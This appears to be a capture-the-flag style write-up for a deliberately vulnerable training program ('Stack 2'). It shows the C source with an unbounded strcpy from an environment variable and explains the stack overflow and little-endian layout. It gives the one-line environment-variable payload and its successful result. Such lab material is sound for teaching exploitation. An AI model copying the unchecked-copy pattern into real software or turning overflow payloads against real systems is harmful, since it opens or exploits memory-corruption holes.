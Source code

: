 # STACK 2

## SOURCE CODE

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");  						// set the environment variable with GREENIE=$(python -c "print 'a'*64 + '\x0a\x0d\x0a\x0d'")

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable); 		 					// vuln is here, this function does not limit the size will be write at "buffer" address

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n"); 			// target
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

## IDEA:

- The idea is overwrite stack to change the "modified" variable to 0x0d0a0d0a to go inside true branch of if.

## DETAILS:

- The strcpy will copy content of "variable" point to until it gets '\0', it does not limit the size copy, so we can overwrite to stack we need to overwrite 64 bytes to fill up the "buffer" and 0x0d0a0d0a for "modified" variable the value of "modified" variable will look likes this in payload: '\x0a\x0d\x0a\x0d' (the reverse of each 4 bytes is because this program is 32-bit and use little edian).

- But before we get overwrite, we need to entered our input, this program use getenv() to take input, so, we set the envrionment variable with the data we overwrite on stack, 64 bytes and '\x0a\x0d\x0a\x0d'

- Set the environment variable that has name is GREENIE
```
	GREENIE=$(python -c "print 'a'*64 + '\x0a\x0d\x0a\x0d'")
```

- Finally, we run the program, and below is payload to exploit.

## EXPLOIT:

- Payload:

```
    GREENIE=$(python -c "print 'a'*64 + '\x0a\x0d\x0a\x0d'") ./stack2
```

## RESULT

```
    $ GREENIE=$(python -c "print 'a'*64 + '\x0a\x0d\x0a\x0d'") ./stack2
    you have correctly modified the variable
```
